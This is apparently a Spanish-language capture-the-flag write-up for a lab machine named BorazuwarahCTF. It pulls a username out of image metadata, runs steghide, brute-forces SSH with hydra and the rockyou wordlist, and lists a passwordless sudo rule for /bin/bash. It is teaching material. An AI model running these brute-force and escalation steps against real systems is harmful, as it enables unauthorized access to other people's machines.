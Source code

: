 ```yaml
---
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
  metadata:
    visible: true
---
```


# BorazuwarahCTF

La máquina está corriendo un servicio web. Esto lo he comprobado introduciendo la IP en el navegador. Nos encontramos con una foto de un huevo kinder.

<div align="left"><figure><img src="../../.gitbook/assets/Pasted image 20250622010559.png" alt="" width="251"><figcaption></figcaption></figure></div>

Antes de comprobar directorios ocultos, creo que la imagen nos puede decir algo, así que procedo a descargarme la imagen para analizarla. Si usamos el comando `exiftool` podemos ver los metadatos de la imagen:

<figure><img src="../../.gitbook/assets/Pasted image 20250622010836.png" alt=""><figcaption></figcaption></figure>

En el campo `description` encontramos un usuario: **`borazuwarah`**. Sobre la contraseña no nos dice nada. Puede que haya un archivo oculto en su interior, ya que en los metadatos de la imagen aparece el propio programa `exiftool` utilizado para esconder imágenes y metadatos ocultos. Vamos a comprobar si la imagen tiene información oculta, para ello utilizo el comando `steghide extract -sf imagen.jpeg` y vemos si hay suerte.

<div align="left"><figure><img src="../../.gitbook/assets/Pasted image 20250622011152.png" alt=""><figcaption></figcaption></figure></div>

Efectivamente había un fichero oculto, pero no nos ha valido para nada. Nos indica que la pista está dentro de la imagen, por lo que creo que se refiere a lo que ya hemos encontrado anteriormente. He supuesto que este usuario se puede utilizar para acceder por SSH a la máquina, por lo que si no tenemos más información, podemos intentar hacerle un ataque de fuerza bruta al SSH para el usuario encontrado.

```bash
hydra -l borazuwarah -P /usr/share/wordlists/rockyou.txt ssh://$IPTARGET
```

```bash
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: borazuwarah   password: 123456
1 of 1 target successfully completed, 1 valid password found
```

Una vez entramos por ssh a la máquina, ejecutamos el comando `sudo -l` para ver los permisos que tenemos como sudoer.

```bash
sudo -l
```

```
Matching Defaults entries for borazuwarah on 7eec632a86c9:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User borazuwarah may run the following commands on 7eec632a86c9:
    (ALL : ALL) ALL
    (ALL) NOPASSWD: /bin/bash
```

Podemos correr el ejecutable `/bin/bash` con sudo sin necesidad de contraseña.

<div align="left"><figure><img src="../../.gitbook/assets/Pasted image 20250722015209.png" alt=""><figcaption></figcaption></figure></div>
